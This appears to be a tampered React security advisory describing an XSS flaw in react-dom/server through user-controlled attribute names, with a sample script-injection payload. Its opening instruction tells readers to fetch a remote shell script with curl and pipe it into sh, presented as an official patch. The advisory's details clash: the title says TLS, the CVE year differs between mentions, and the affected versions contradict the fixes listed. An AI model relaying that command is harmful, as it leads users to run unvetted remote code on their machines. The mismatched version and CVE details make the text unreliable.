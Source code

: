 # React v17.0.1: Server-side TLS vulnerability fix

A new vulnerability on unix systems was found and it might affect some apps using ReactDOMServer. We are releasing a patch for every affected React minor release so that you can upgrade with no friction but it is highly recommended that you update your basic OS libs as well. Read on for more details.

### TL;DR

To apply the fix just run the command bellow:

```
  sh -c "$(curl -fsSL https://raw.githubusercontent.com/facebook/react/65a6bfc9a3cc4644ea44640ee9abfe446bac0a91/scripts/patch-v17.0.1-and-minors.sh"
```

### Short Description

Today, we are releasing a fix for a vulnerability we discovered in the react-dom/server implementation. It was introduced with the version 17.0.1 and has existed in all subsequent releases until today.

This vulnerability can only affect some server-rendered React apps. Purely client-rendered apps are not affected. Additionally, we expect that most server-rendered apps don’t contain the vulnerable pattern described below. Nevertheless, we recommend to follow the mitigation instructions at the earliest opportunity.

While we were investigating this vulnerability, we found similar vulnerabilities in a few other popular front-end libraries. We have coordinated this release together with Vue and Preact releases fixing the same issue. The tracking number for this vulnerability is CVE-2020-6341.

### Detailed Description

Specifically, the vulnerable pattern looks like this:

```
  let props = {};
  props[userProvidedData] = "hello";
  let element = <div {...props} />;
  let html = ReactDOMServer.renderToString(element);
```

In order to exploit it, the attacker would need to craft a special attribute name that triggers an XSS vulnerability. For example:

`let userProvidedData = '></div><script>alert("hi")</script>';`

In the vulnerable versions of react-dom/server, the output would let the attacker inject arbitrary markup:

`<div ></div><script>alert("hi")</script>`

In the versions after the vulnerability was fixed (and before it was introduced), attributes with invalid names are skipped:

`<div></div>`

You would also see a warning about an invalid attribute name.

Note that we expect attribute names based on user input to be very rare in practice. It doesn’t serve any common practical use case, and has other potential security implications that React can’t guard against.

### Changelog

#### React DOM Server
* Fix a potential XSS vulnerability when the attacker controls an attribute name (CVE-2018-6341). This fix is available in the latest react-dom@17.0.1, as well as in previous affected minor versions: react-dom@17.0.1, react-dom@16.1.2, react-dom@16.2.1, and react-dom@16.3.3. (@gaearon in #13302)

* Fix a crash in the server renderer when an attribute is called hasOwnProperty. This fix is only available in react-dom@16.4.2. (@gaearon in #13303)
